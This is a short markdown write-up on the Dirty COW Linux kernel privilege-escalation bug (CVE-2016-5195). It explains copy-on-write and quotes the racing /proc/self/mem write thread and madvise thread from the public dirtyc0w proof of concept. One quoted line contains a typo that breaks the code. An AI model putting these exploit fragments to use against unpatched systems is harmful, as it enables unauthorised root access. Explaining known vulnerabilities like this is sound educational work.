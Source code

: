 ```yaml
---
date: 2022-02-19 21:50:00
tags:
    - linux
    - COW
    - anusO1
category: tech
keywords:
  - dirtycow
---
```


## author: [[anusO1]](https://github.com/calebrwalk5)

## Details about "Dirty Cow" (CVE-2016-5195)

## COW (Copy on Write)

Copy on Write is an optimization technique that allows virtual pages of memory in different processes, which have identical content to map to the same physical memory pages. If one of the processes writes to one of these shared pages, the data is copied to a new physical page and the virtual-to-physical-memory mappings are updated according to the changes. This techniqie is used (and abused) in many different scenarios.

## Vulnerability

"Dirty Cow" (CVE-2016-5195) is a privilege escelation vulnerability in the Linux kernel. Here we are looking at the ["dirtyc0w PoC"](https://github.com/dirtycow/dirtycow.github.io/blob/master/dirtyc0w.c)
```
map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
```
It starts two threads. One thread opens /proc/self/mem read-write and loops millions of times writing the data specified on the command-line to it at the offset of the mmap’ed file.  /proc/self/mem is an entry in the procfs virtual file system which gives access to the pages of a current process’s virtual memory.

```
void *procselfmemThread(void *arg) {
	char *str;
	str=(char*)arg;
	int f=open("/proc/self/mem",O_RDWR);
	int i,c=0;
	for(i=0;i<100000000;i++) {
		lseek(f,(uintptr_t) map,SEEK_SET);
		c+=write(f,str,strlen(str));
	}
	printf("procselfmem %d\n\n", c);
}
```
This writes to /proc/self/mem and triggers COWs, but these pages are marked a private, and the memory pages will not be written back to the mapped file. However, the other thread loops, again millions of times, calling the madvise(2) system call on the same offset with the flag MADV_DONTNEED which tells the kernel to discard the pages that are mmap’ed.
```
void *madviseThread(void *arg) {
	char *str;
	str(char*)arg;
	int i,c=0;
	for(i=0;i<100000000;i++) {
		c+=madvise(map,100,MADV_DONTNEED);
	}
	printf("madvise %d\n\n",c);
}
```

## Who found the "Dirty Cow" vulnerability?

[Phil Oester](https://access.redhat.com/security/cve/CVE-2016-5195) found it in October of 2016

## More Info

[Debian](https://security-tracker.debian.org/tracker/CVE-2016-5195)
[dirtycow.ninja](https://dirtycow.ninja)
[Wikipedia](https://en.wikipedia.org/wiki/Dirty_COW)
